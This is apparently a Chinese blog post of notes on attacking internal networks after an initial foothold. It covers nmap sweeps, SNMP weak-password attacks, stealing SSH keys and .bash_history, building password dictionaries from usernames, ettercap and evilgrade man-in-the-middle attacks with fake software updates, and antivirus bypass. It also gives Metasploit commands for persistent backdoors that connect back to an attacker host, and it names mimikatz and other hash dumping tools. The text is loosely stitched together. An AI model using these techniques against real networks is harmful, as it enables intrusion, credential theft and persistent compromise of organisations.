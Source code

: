 ```yaml
---
layout: post
title: Misc-center
tags: Misc
categories: 👓
---
```


## Misc-center

1. nmap -sP 172.19.16.1/24   发现扫描主机.

2. 查看 host 获取局域网信息.

3. 直接攻击网段路由或交换机，简单绘制内网的结构
（我在从TCL某漏洞看内网渗透教学分享之内网信息探测和后渗透准备中就是获取了cisco路由的privilege15权限，得到了内网结构，进一步进行跨vlan攻击）


4. 多尝试交换机snmp弱口令，一旦成功，内网结构清晰


	•	关于snmp渗透  
	什么是snmp  
	使用了snmp管理的设备，只需要community string即可，所以针对这个string爆破或者社工都是可行的，默认public/private  
	首先进行161端口扫描，发现snmp开放情况，通过弱口令查看设备信息，在oid中读取设备密码  
	￼
	•	  
	例子：中国移动集团华为三层交换SNMP漏洞，可获取管理帐号密码，已成功登录  
	可以通过这个nmap和msf脚本进行自动攻击h3c-pt-tools
	•	尝试从主机的用户目录或者管理运维邮箱寻找敏感信息(某次渗透即是keylogger运维后在测试机桌面获取到拓扑和网段)  
	￼
	•	
	•	通过resolv.conf找到内网dns服务器，或者字典穷举dns
	•	注意分析用户的.bash_history，一般可以分析出用户的使用习惯，纪录等,获取/.shh/，尝试配合history的连接纪录直接通过密钥登陆其他机器
0x03 内网渗透的常见攻击技巧

•	通过之前的信息收集和探测，判断出主要的业务机器，如OA，dbserver，利用ssh信任，连入机器后导出员工的userlist，做成针对性的字典，大部分内网的安全性都是脆弱的，且最容易出问题的就是口令安全（大公司也不例外）  
%username%1  
%username%12  
%username%123  
%username%1234  
%username%12345  
%username%123456

主要对ssh,dbserver,vnc,ftp进行爆破
￼
•	对开了web service的server进行常规渗透，有可以减少工作量的办法就是先对机器批量识别banner，通过banner判断出cms或中间件，直接利用exp
•	中间人攻击
常用ettercap，不建议做arp的mitm，可以尝试dhcp mitm或者icmp mitm
也可以猥琐一点，劫持插件，攻击网关，或者利用evilgrade去伪造软件更新(如notepad++)，然后捆绑上后门，直接打下工作机器，进入办公网
￼
￼
简单配置后用msf生成后门，start即可配合ettercap使用伪造软件更新了
￼
•	常见服务漏洞攻击  
smb/ms08067/ipc$/NetBIOS…………
但是在针对这些比较古老的漏洞攻击时，很可能有AV拦截，所以在不同场景遇到的坑都不一样
比如之前在西电DM牛告诉我，有AV，如果直接利用psexec返回会话，即会拦截，这时就可以利用powershell来bypass AVPowershell tricks::Bypass AV
0x04 后渗透准备和扩大战果

一次完美的内网渗透肯定不是能够一次性完成的，因为整个过程需要管理员的"配合"（口胡。。。）所以后渗透准备时很有必要的
1. 后门准备

msf的后门已经不错，只需要稍加改造就能很好满足我们的需求
普通msfpayload生成的后门不是持续性的，不利于我们下次继续工作，所以需要一个持续性后门
msf的持续性后门有两种，通过服务启动(metsvc)和通过启动项启动(persistence)
通过服务的后门有个弊端，服务名称是meterpreter，利用方式是： 上传后门，通过metsvc安装服务
1
2
3
4
5
meterpreter \> run metsvc
...(设定端口，并且上传后门文件)
use exploit/multi/handler
set PAYLOAD windows/metsvc_bind_tcp
exploit
通过启动项的利用方式：
1
2
3
4
5
meterpreter \> run persistence -X -i 10 -p port -r hostip
 
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
当然，直接生成的后门有可能会被杀，所以这里我推荐一个很不错的工具，veil，之前再一次小型apt中用这个生成了的后门直接bypass了360
linux下有两个常用的后门
mafix rookit和Cymothoa，后者听说可以克隆root用户，不过大部分的backdoor基本都相当于一个加密nc，会新开端口，所以如果webshell存活，可以直接考虑用webshell维持权限





3. hash

mimikatz，不用多说，利用meterpreter可以直接load模块
Quarks PwDump
wce
0x05 something else

内网渗透涉及的面很广，本文主要说到的是一些很简单的问题和常规的思路
尚未谈到的 域渗透 打印机 办公网嗅探 入侵日志清理等等
如果有机会，日后慢慢补全



